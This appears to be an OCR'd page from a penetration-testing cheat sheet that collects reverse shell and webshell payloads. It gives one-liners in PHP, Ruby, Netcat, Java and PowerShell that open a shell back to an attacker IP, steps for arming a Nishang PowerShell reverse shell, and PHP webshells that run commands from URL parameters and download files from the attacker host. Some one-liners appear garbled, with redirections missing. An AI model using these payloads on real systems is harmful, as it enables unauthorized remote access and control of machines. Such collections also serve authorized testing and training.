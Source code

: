 ``` bash
php -r '$sock=fsockopen("10.10.10.10",443);exec("/bin/sh -i &3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",443).to_i;exec sprintf("/bin/sh -i &%d 2>&%d",f,f,f)'

# Netcat : -u for UDP
nc [-u] 10.10.10.10 443 -e /bin/bash

# Netcat without -e : -u for UDP
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [-u] 10.10.10.10 443 > /tmp/f

# Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5/dev/tcp/10.10.10.10/443;cat &5 >&5; done"] as String[])
p.waitFor()
```

#### Reverse shell scripts
PHP reverse shell available [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) or locally
`/usr/share/webshells/php/php-reverse-shell`

Python PTY shells available [here](https://github.com/infodox/python-pty-shells)

### Windows 

PowerShell reverse shell available [here](https://github.com/samratashok/nishang)
PHP reverse shell available [here](https://github.com/Dhayalanb/windows-php-reverse-shell)
Netcat for Windows available [here](https://eternallybored.org/misc/netcat/)
``` bash
# PowerShell
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
vi shell.ps1
# go to end of file, paste the following
Invoke-PowerShellTcp -Reverse -IPAddress [attacker_ip] -Port [attacker_port]
# close, reverse shell ready to use

# Netcat - use x64 or x32 as per target. powershell.exe or cmd.exe
nc.exe x.x.x.x <port> -e powershell.exe
```

### PHP Webshells
``` PHP
# Basic. system() or shell_exec() or exec()
<?php system($_GET['cmd']);?>

# More functional
<?php
$ip = 'http://10.10.14.4/' # [:port] . Change this
# Upload
if (isset($_GET['fupload'])) {
    file_put_contents($_GET['fupload'], file_get_contents($ip . $_GET['fupload']));
};
# Execute code
# shell_exec() or system() or exec()
if (isset($_GET['cmd'])) {
    echo "<pre>" . exec($_GET['cmd']) . "</pre>";
};
?>
```
